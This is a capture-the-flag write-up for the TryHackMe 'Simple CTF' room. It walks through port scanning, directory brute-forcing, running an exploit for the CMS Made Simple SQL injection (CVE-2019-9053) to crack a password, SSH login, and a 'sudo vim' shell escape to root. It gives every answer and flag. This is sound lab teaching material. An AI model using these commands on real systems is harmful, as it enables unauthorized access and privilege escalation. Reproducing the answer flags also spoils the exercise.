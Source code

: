 ```yaml
---
description: 'https://tryhackme.com/room/easyctf'
---
```


# Simple CTF

## INIT

```text
export easyctf=10.10.150.200
ping $easyctf

echo "10.10.150.200 easyctf.thm" >> /etc/hosts
```

## How many services are running under port 1000?

```text
nmap -T5 -p1-1000 easyctf.thm
```

![](../.gitbook/assets/image%20%28411%29.png)

{% hint style="success" %}
2
{% endhint %}

## What is running on the higher port?

```text
nmap -sC -sV -T5 -p1-65535 easyctf.thm
```

![](../.gitbook/assets/image%20%28390%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## FTP

![](../.gitbook/assets/image%20%28430%29.png)

## HTTP

![](../.gitbook/assets/image%20%28427%29.png)

## GOBUSTER

```text
gobuster dir -u easyctf.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28412%29.png)

![](../.gitbook/assets/image%20%28432%29.png)

> CMS Made Simple 2.2.8

## What's the CVE you're using against the application?

![](../.gitbook/assets/image%20%28423%29.png)

![](../.gitbook/assets/image%20%28397%29.png)

{% hint style="success" %}
CVE-2019-9053
{% endhint %}

## To what kind of vulnerability is the application vulnerable?

![](../.gitbook/assets/image%20%28400%29.png)

{% hint style="success" %}
sqli
{% endhint %}

## What's the password?

```text
python3 easyctf.py -u http://easyctf.thm/simple --crack -wordlist /usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28422%29.png)

{% hint style="success" %}
secret
{% endhint %}

## Where can you login with the details obtained?

![](../.gitbook/assets/image%20%28389%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## What's the user flag?

![](../.gitbook/assets/image%20%28379%29.png)

{% hint style="success" %}
G00d j0b, keep up!
{% endhint %}

## Is there any other user in the home directory? What's its name?

![](../.gitbook/assets/image%20%28380%29.png)

{% hint style="success" %}
sunbath
{% endhint %}

## What can you leverage to spawn a privileged shell?

```text
sudo vim -c ':!/bin/sh'
```

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

{% hint style="success" %}
vim
{% endhint %}

## What's the root flag?

```text
cat /root/root.txt
```

{% hint style="success" %}
W3ll d0n3. You made it!
{% endhint %}

